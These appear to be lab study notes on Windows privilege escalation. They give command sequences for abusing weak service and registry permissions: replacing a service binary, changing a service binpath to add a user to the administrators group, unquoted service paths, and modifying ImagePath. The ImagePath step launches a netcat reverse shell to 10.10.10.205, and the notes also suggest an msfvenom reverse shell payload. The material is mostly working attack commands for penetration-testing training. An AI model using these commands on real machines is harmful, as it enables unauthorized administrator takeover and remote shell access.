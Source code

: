 ## Permissive File System ACLs

**Running SharpUp
```
.\SharpUp.exe audit
```
- Outputs C:\Program Files (x86)\PCProtect\SecurityService.exe
- https://github.com/GhostPack/SharpUp/

**Checking Permissions with icacls
```
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
- https://ss64.com/nt/icacls.html

**Replacing Service Binary
```
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
sc start SecurityService
```
- Use msfvenom reverse shell


## Weak Service Permissions

**Reviewing SharpUp Again
```
SharpUp.exe audit
```

**Checking Permissions with AccessChk
```
accesschk.exe /accepteula -quvcw WindscribeService
```
- https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

**Check Local Admin Group
```
net localgroup administrators
```

**Changing the Service Binary Path
```
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

**Stopping Service
```
sc stop WindscribeService
```

**Starting the Service
```
sc start WindscribeService
```

**Confirming Local Admin Group Addition
```
net localgroup administrators
```


## Weak Service Permissions - Cleanup

**Reverting the Binary Path
```
sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

**Starting the Service Again
```
sc start WindScribeService
```

**Verifying Service is Running
```
sc query WindScribeService
```


## Unquoted Service Path
When a service is installed, the registry configuration specifies a path to the binary that should be executed on service start. If this binary is not encapsulated within quotes, Windows will attempt to locate the binary in different folders.

**Service Binary Path
```
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
```

With a .exe implied, Windows will attempt to load the following potential executables in order on service start:
- C:\Program
- C:\Program Files
- C:\Program Files (x86)\System
- C:\Program Files (X86)\System Explorer\service\SystemExplorerService64

**Querying Service
```
sc qc SystemExplorerHelpService
```
- Does not have quotes around binary path name

If we can create the following, then we can run our malicious exe instead of the legit binary
- C:\Program.exe\
- C:\Program Files (x86)\System.exe

This is difficult because you need administrative privileges to create files in the root folders.

**Searching for Unquoted Service Paths
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```


## Permissive Registry ACLs

**Checking for Weak Service ACLs in Registry
```
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

**Changing ImagePath with Powershell
```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```


## Modifiable Registry Autorun Binary

**Check Startup Programs
```
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```
